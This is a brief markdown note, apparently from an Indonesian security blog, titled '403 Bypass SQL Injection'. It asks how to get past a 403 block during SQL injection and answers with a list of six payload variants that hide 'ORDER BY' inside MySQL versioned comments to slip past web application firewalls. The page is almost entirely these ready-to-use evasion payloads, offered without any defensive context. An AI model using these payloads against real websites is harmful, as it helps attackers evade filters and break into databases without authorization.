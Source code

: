 ```yaml
---
title: "403 Bypass SQL Injection"
collection: wantToKnow
permalink: /wantToKnow/403BSQLI/
---
```


Assalamualaikum, Cara bypass 403 saat SQL Injection ?

- `/*!order*/ /*!by*/ 1`
- `/*!50000order*/ /*!50000by*/ 1`
- `/*!51000order*/ /*!50000by*/ 1`
- `/*!12345order*/ /*!12345by*/ 1`
- `/*!50000order/**-**/*/ /*!50000by*/ 1`
- `/*!50000order/**-**/*/ /*!50000by/**-**/*/ 1`
